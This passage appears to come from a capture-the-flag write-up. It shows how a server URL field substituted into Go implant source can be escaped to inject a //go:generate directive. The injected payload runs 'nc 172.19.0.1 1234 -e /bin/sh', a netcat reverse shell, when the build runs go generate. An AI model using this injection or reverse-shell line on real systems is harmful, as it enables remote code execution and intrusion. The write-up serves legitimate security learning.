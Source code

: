 This compiles a new implant with the server URL we provide directly replaced into the implant source code. 

```go
// polaris_agent.go

...

func main() {
	const version = "3.12.5"
	const userAgent = "Polaris Control/" + version
	const configPath string = "/tmp/polaris.conf"
	const screenshotPath string = "/tmp/screenshot.png"
	const apiURL string = "SERVER_URL"                       // SERVER_URL will be replaced!

	var apiConnection bool = checkConnection(apiURL)

	if apiConnection {
		var configFileExists bool = checkFile(configPath)
...
```

Essentially we can cause arbitrary go code to be compiled - what do we do with this? Some further research into the command called, `go generate` revealed the [`//go:generate` directive](https://blog.carlmjohnson.net/post/2016-11-27-how-to-use-go-generate/). 

> The `go generate` command was added in [Go 1.4](https://golang.org/doc/go1.4#gogenerate), “**to automate the running of tools** to generate source code before compilation.”

This sounds like exactly what we are looking for. After quickly verifying the container for this challenge contains the `-e` variant of netcat we can build our payload. We need the directive to be at the beginning of a new line to function correctly, so we will close the quotes, take a newline, enter our directive, take another newline and start a comment to ignore the trailing quote, like so:

`server_url` payload
```
"
//go:generate nc 172.19.0.1 1234 -e /bin/sh
//
```

which when replaced into the go code with `SERVER_URL`, will look like this:

```go
func main() {
	const version = "3.12.5"
	const userAgent = "Polaris Control/" + version
	const configPath string = "/tmp/polaris.conf"
	const screenshotPath string = "/tmp/screenshot.png"
	const apiURL string = ""
//go:generate nc 172.19.0.1 1234 -e /bin/sh
//"                       

	var apiConnection bool = checkConnection(apiURL)

	if apiConnection {
		var configFileExists bool = checkFile(configPath)
```

